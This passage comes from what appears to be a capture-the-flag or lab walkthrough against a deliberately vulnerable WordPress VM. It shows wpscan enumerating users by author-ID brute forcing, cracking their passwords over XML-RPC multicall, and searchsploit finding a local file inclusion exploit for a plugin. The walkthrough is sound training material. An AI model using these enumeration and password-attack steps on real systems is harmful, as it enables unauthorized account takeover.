 ```

[+] harry
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] scott
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] kathy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] tim
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc Multicall against 11 user/s
[SUCCESS] - garry / football                                                                                       
[SUCCESS] - harry / monkey                                                                                         
[SUCCESS] - scott / cookie                                                                                         
[SUCCESS] - kathy / coolgirl
...
```
`wpscan` quickly finds the password for users garry, harry, scott and kathy, but it does not seem like these accounts have the capability to do anything interesting.  
They are also not valid logins for the phpMyAdmin page found during the `nikto` scan.

Brute forcing passwords can take a while when using a large list like rockyou.txt.
While `wpscan` is running, we can explore the directories found during the scan.

Going to `https://10.0.2.5:12380/blogblog/wp-content` reveals three folders: plugins, themes and uploads.  
Using the `searchsploit` tool we can check whether the plugins installed on the blog have any exploits that we can use.  
There is one result for the _advanced video embed_ plugin while the other plugins, shortcode ui and two factor have no results for the version installed.

```
$ searchsploit advanced video embed
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Advanced Video 1.0 - Local File Inclusion                       | php/webapps/39646.py
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
``` 
